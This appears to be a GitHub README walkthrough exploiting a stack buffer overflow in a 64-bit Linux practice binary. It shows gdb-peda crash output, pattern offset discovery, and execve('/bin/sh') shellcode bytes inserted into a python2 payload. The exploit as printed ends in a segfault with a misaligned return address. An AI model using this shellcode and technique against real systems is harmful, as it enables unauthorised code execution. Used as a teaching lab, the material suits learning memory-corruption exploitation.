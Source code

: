 # buffer-overflow-linux-64-bit
buffer overflow linux 64 bit
![Image](https://github.com/abdullah-baghuth/buffer-overflow-linux-64-bit/blob/main/buffer.png)
gdb-peda$ file app
Reading symbols from app...

(No debugging symbols found in app)

gdb-peda$ 

gdb-peda$ run

Starting program: /home/kali/Desktop/Buffer_linux/app 
Oops, I'm leaking! 0x7fffffffe0c0
Pwn me ¯\_(ツ)_/¯ 
> 
gdb-peda$ disassemble main

______________________________________
┌─[kali@kali]─[~/Desktop/Buffer_linux]
└──╼ $python -c 'print "A"*300' > f
______________________________________
gdb-peda$ run < f

Starting program: /home/kali/Desktop/Buffer_linux/app < f

Oops, I'm leaking! 0x7fffffffe0c0

Pwn me ¯\_(ツ)_/¯ 

> 

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]

RAX: 0x0 

RBX: 0x0 

RCX: 0x7ffff7edef4e (<__GI___libc_read+14>:     cmp    rax,0xfffffffffffff000)

RDX: 0x0 

RSI: 0x7ffff7faea03 --> 0xfb1680000000000a

RDI: 0x7ffff7fb1680 --> 0x0 

RBP: 0x4141414141414141 ('AAAAAAAA')

RSP: 0x7fffffffe108 ('A' <repeats 200 times>...)

RIP: 0x40088e (<main+95>:       ret)

R8 : 0x7fffffffe0c0 ('A' <repeats 200 times>...)

R9 : 0x0 

R10: 0xfffffffffffff24a 

R11: 0x246 

R12: 0x4006a0 (<_start>:        xor    ebp,ebp)

R13: 0x0 

R14: 0x0 

R15: 0x0

EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)

[-------------------------------------code-------------------------------------]

   0x400883 <main+84>:  call   0x400650 <fgets@plt>
   
   0x400888 <main+89>:  mov    eax,0x0
   
   0x40088d <main+94>:  leave  
   
=> 0x40088e <main+95>:  ret    

   0x40088f:    nop
   
  
   0x400890 <__libc_csu_init>:  push   r15
   
   0x400892 <__libc_csu_init+2>:        push   r14
   
   0x400894 <__libc_csu_init+4>:        mov    r15d,edi

gdb-peda$run < pattern 

Starting program: /home/kali/Desktop/Buffer_linux/app < pattern

Oops, I'm leaking! 0x7fffffffe0c0

Pwn me ¯\_(ツ)_/¯ 

> 
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]

RAX: 0x0 

RBX: 0x0 

RCX: 0xfbad20ab 

RDX: 0x0 

RSI: 0x7ffff7faea03 --> 0xfb16800000000025 

RDI: 0x7ffff7fb1680 --> 0x0 

RBP: 0x4141334141644141 ('AAdAA3AA')

RSP: 0x7fffffffe108 

("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A"...)

RIP: 0x40088e (<main+95>:       ret)

R8 : 0x7fffffffe0c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)

gdb-peda$ pattern_search 

Registers contain pattern buffer:

RBP+0 found at offset: 64

Registers point to pattern buffer:

[RSP] --> offset 72 - size ~203

[R8] --> offset 0 - size ~203

Pattern buffer found at:

0x00007fffffffe0c0 : offset    0 - size  300 ($sp + -0x48 [-18 dwords])

# Linux/x86_64 execve("/bin/sh"); 30 bytes shellcode 

["\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"](http://shell-storm.org/shellcode/files/shellcode-603.php)

┌─[kali@kali]─[~/Desktop/Buffer_linux]
└──╼ $python2 -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+b"A"*42+"BBBBBB"' > ff

┌─[kali@kali]─[~/Desktop/Buffer_linux]
└──╼ $python2 -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+b"A"*42+"BBBBBB"' > ff

RSI: 0x7ffff7faea03 --> 0xfb1680000000000a 

RDI: 0x7ffff7fb1680 --> 0x0 

RBP: 0x4242424141414141 ('AAAAABBB')

RSP: 0x7fffffffe110 --> 0x7fffffffe1f8 --> 0x7fffffffe4df ("/home/kali/Desktop/Buffer_linux/app")

RIP: 0x7f000a424242 

R8 : 0x7fffffffe0c0 --> 0x91969dd1bb48c031

Stopped reason: SIGSEGV

0x00007f000a424242 in ?? ()



